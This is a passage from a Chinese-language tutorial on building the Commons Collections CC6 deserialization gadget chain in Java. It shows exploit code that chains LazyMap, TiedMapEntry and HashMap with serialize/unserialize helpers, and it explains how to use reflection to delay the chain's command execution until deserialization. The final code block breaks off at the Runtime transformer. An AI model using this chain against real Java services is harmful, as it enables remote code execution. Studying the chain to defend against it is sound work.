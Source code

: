 ```plain
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");

        ;


    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题一：

因为序列化我们没有必要让他进行命令执行，而hashMap中的put方法会直接调用下去，所以这里我们可以在序列化的时候破环链子的某一个参数，防止他命令执行，然后在执行完put以后再利用反射将参数改回来

这里将LazyMap中对应参数factory要传入的chainedTransformer来进行替换，然后再通过反射将factory的值修改过来：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
```